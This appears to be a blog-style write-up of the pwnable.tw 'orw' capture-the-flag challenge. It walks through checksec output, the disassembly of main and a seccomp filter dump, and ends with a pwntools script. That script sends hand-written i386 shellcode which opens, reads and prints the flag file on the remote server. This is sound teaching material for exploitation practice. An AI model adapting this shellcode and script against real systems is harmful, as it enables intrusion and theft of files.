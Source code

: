 ```yaml
---
title: "orw"
date: 2023-01-27T19:46:10-08:00
draft: false
---
```


# [orw.md](orw.md)

# ORW write-up

Starting this challenge I ran `pwn checksec` on the program to get the info on the security measures for the binary:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

After running the binary I quickly realized these security measures didn’t matter. Running the binary in GDB gave me the functionality of the program: `disass main`

```
0x08048548 <+0>:     lea    ecx,[esp+0x4]
0x0804854c <+4>:     and    esp,0xfffffff0
0x0804854f <+7>:     push   DWORD PTR [ecx-0x4]
0x08048552 <+10>:    push   ebp
0x08048553 <+11>:    mov    ebp,esp
0x08048555 <+13>:    push   ecx
0x08048556 <+14>:    sub    esp,0x4
0x08048559 <+17>:    call   0x80484cb <orw_seccomp>
0x0804855e <+22>:    sub    esp,0xc
0x08048561 <+25>:    push   0x80486a0
0x08048566 <+30>:    call   0x8048380 <printf@plt>
0x0804856b <+35>:    add    esp,0x10
0x0804856e <+38>:    sub    esp,0x4
0x08048571 <+41>:    push   0xc8
0x08048576 <+46>:    push   0x804a060
0x0804857b <+51>:    push   0x0
0x0804857d <+53>:    call   0x8048370 <read@plt>
0x08048582 <+58>:    add    esp,0x10
0x08048585 <+61>:    mov    eax,0x804a060
0x0804858a <+66>:    call   eax
0x0804858c <+68>:    mov    eax,0x0
0x08048591 <+73>:    mov    ecx,DWORD PTR [ebp-0x4]
0x08048594 <+76>:    leave
0x08048595 <+77>:    lea    esp,[ecx-0x4]
0x08048598 <+80>:    ret
```

Reading this I found that the program quite literally saved your input into memory then called that section of memory. There is also a seccomp function called as well. Seccomp I learned is a function filtering solution that whitelists only certain functions for use within the program. There’s a special tool called `seccomp-tools` that allows you to see what functions are allowed in the program.

`seccomp-tools dump ./orw`

```
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

This showed me that I needed to use open/read/write in my shellcode to run the program.

 So I tried running some shellcode only to find out that the binary they gave me was compiled so that the shellcode was copied into non-executable memory so whenever it gets called it segfaults. I knew that it had to be able to run on the server so I just created some shellcode that would read the contents of `/home/orw/flag` into some empty memory then write 40 bytes from the buffer to `stdout` so I could read it. After a ton of tweaking of the shellcode, I was able to get a response from the server with the flag.

### Program

```
#! /usr/bin/env python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
shellcode = b"j\x05Xhag\x00\x00hw/flhe/orh/hom1\xc9\x99T[\xcd\x80j\x03Xj\x03[h\x00\xa5\x04\x08Yj2Z\xcd\x80j\x04Xj\x01[h\x00\xa5\x04\x08Yj2Z\xcd\x80"
p = remote("chall.pwnable.tw", 10001)
p.recv()
p.sendline(shellcode)
p.interactive()
```

In the interactive I was able to get the flag:

```
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{EXAMPLE_FLAG}
\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
